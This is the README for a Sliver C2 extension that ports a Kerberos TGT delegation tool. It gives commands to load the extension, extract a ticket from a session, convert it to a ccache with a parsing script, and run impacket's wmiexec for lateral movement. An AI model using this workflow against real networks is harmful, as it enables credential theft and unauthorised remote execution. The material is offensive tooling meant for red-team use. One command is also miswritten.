 # tgtdeleg
https://github.com/connormcgarr/tgtdelegation for use with `sliver`

all credit to @connormcgarr

meant for living-above-the-land while avoiding `execute-assembly` as much as possible.


## usage
install with `extensions load <folder>`&`extensions install <folder>`
use:
```
sliver (SESSION)> tgtdeleg 0 currentdomain default
# in a separate console
python3 install -r tgtParse/requirements.txt
python3 tgtParse/tgtParse.py --apreq <asreq> --sessionkey <key> --etype AES-256

# converts to .ccache automatically
export KRB5CCNAME=
python3 wmiexec.py -k ...
```
